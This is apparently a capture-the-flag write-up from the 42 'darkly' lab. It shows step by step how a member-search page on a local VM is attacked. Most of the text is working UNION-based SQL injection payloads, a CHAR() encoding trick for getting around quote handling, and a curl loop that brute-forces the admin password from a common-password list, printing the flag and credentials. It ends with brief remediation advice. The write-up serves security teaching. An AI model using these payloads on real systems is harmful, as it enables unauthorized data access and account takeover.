 # Brute Force

On [the member search page](http://192.168.56.101/?page=member) querying list of Databases name from Information Schema shows that the schema named **Member_Brute_Force** exists.

```sql
1 AND 1=1 UNION SELECT 1, table_schema FROM information_schema.tables
```
![Member_Brute_Force DB](https://user-images.githubusercontent.com/22397481/207932328-93288cf9-01dc-4155-8ae7-b2670c054f07.jpeg)

Knowing the name of the DB to use, *Member_Brute_Force*, next step is to determine table name.

The `WHERE` clause requires single quotes around text values but the request will resulnt in an error from the PHP.
```sql
1 and 1=1 UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema='Member_Brute_Force'
```

To bypass that, `CHAR()` function can be used. First, the string needs to be converted to a set of ASCII values using Python.
```python
┌──$ [~/42/2022/darkly]
└─>  python -c 'print([ord(c) for c in "Member_Brute_Force"])' 
[77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101]
```
Hence, SQL request will be following
```sql
1 AND 1=1 UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)
```

by doing so, we can find `db_default` table in `Member_Brute_Force` schema:

![tables_name](https://user-images.githubusercontent.com/22397481/209446179-4a319599-97ed-4e72-a4ff-194843824efe.jpeg)

In order to take a look at the `db_default` table in `Member_Brute_Force` schema, following query needs to be executed, but as the php causes an error, it needs to be changed as well
```python
┌──$ [~/42/2022/darkly]
└─>  python -c 'print([ord(c) for c in "db_default"])'
[100, 98, 95, 100, 101, 102, 97, 117, 108, 116]
```
```sql
1 and 1=1 union select column_name, 2 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101) and table_name=CHAR(100, 98, 95, 100, 101, 102, 97, 117, 108, 116)
```

By doing so, we can acknowledge there are four columns `id`, `username`, `password`

![table_names](https://user-images.githubusercontent.com/22397481/209446331-122b5aa4-93d1-4616-93ca-9762fa951436.jpeg)

To check username in the `db_default` table, this query needs to be run

```sql
1 AND 1=1 UNION SELECT username,2 FROM Member_Brute_Force.db_default
```

Once we run the query, we know there are two users `admin`, and `root` exists for login.


Of course the password can be retrieved with sending a query to the `Member_Brute_Force` table, we can also try using the Brute Force Method.

In order to do so, the following script can be run, with password in [here](./2020-200_most_used_passwords.txt), [2020-200-most_used_passwords.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2020-200_most_used_passwords.txt) from [SecLists](https://github.com/danielmiessler/SecLists)


```sh
┌──$ [~/42/2022/darkly]
└─>  while read PASSWORD; do curl -sL "http://192.168.56.101/?page=signin&username=admin&password=${PASSWORD}&Login=Login" | grep -oE "The flag is : [[:alnum:]]{64}" && echo "admin:${PASSWORD}"; done < 2020-200_most_used_passwords.txt
The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
admin:shadow
```

Log in with ID `admin` and password `shadow`.

![login admin shadow](https://user-images.githubusercontent.com/22397481/209446901-261e2a7a-9ea5-429d-a820-e4dbba6f07b7.gif)

## Remediation
SQL Injection has become a common issue with database-driven web sites.
- Validate user input
- Separate sensitive data and store it in different DB
- Utilize the principle of least privilege

***
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
https://learn.microsoft.com/en-us/sql/relational-databases/security/sql-injection
